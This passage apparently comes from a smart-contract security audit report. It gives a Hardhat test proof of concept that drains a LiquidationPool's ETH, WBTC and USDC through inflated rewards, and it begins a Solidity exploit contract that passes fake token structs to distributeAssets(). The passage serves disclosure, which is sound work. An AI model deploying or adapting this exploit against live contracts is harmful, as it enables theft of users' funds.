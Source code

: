 ```js
      console.log("WBTC = %s", await WBTC.balanceOf(LiquidationPool.address));            // WBTC = 999998
      console.log("USDC = %s", await USDC.balanceOf(LiquidationPool.address));            //USDC = 499999998

      // First claim to reset the rewards of the attacker and make calculations easier
      await LiquidationPool.connect(attacker).claimRewards();
      // Deploy exploit contract and execute attack
      let ExploitFactory = await ethers.getContractFactory('DistributeAssetsExploit');
      let ExploitContract = await ExploitFactory.connect(attacker).deploy(LiquidationPool.address);
      await ExploitContract.connect(attacker).exploit(
        attacker.address, WBTC.address, USDC.address
      );
      // Claim inflated rewards to drain the pool
      await LiquidationPool.connect(attacker).claimRewards();

      console.log("\n\n[After exploit] Attacker balance:");                        // [After exploit] Attacker balance:
      console.log("ETH = %s", await ethers.provider.getBalance(attacker.address)); // ETH = 10000497924381243468675
      console.log("WBTC = %s", await WBTC.balanceOf(attacker.address));            // WBTC = 999997
      console.log("USDC = %s", await USDC.balanceOf(attacker.address));            // USDC = 499999997
      console.log("[After exploit] LiquidationPool balance:");                            // [After exploit] LiquidationPool balance:
      console.log("ETH = %s", await ethers.provider.getBalance(LiquidationPool.address)); // ETH = 1
      console.log("WBTC = %s", await WBTC.balanceOf(LiquidationPool.address));            // WBTC = 1
      console.log("USDC = %s", await USDC.balanceOf(LiquidationPool.address));            //USDC = 1
    });
  });
```
Here is the exploit contract:
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
interface ILiquidationPool {
    function distributeAssets(DistributeAssetsExploit.Asset[] memory _assets, uint256 _collateralRate, uint256 _hundredPC) external payable;
    function holders(uint256) external view returns (address);
    function position(address _holder) external view returns(DistributeAssetsExploit.Position memory _position, DistributeAssetsExploit.Reward[] memory _rewards);
}

contract DistributeAssetsExploit {
    ILiquidationPool liquidationPool;

    struct Reward { bytes32 symbol; uint256 amount; uint8 dec; }
    struct Position {  address holder; uint256 TST; uint256 EUROs; }
    struct Token { bytes32 symbol; address addr; uint8 dec; address clAddr; uint8 clDec; }
    struct Asset { Token token; uint256 amount; }
    constructor(address _liquidationPool)
    {
        liquidationPool = ILiquidationPool(_liquidationPool);
    }

    // This exploits the liquidationPool distributeAssets() function by crafting fake Tokens wrapped in Assets
    // that bypass all the checks and allow to get an inflated reward.
```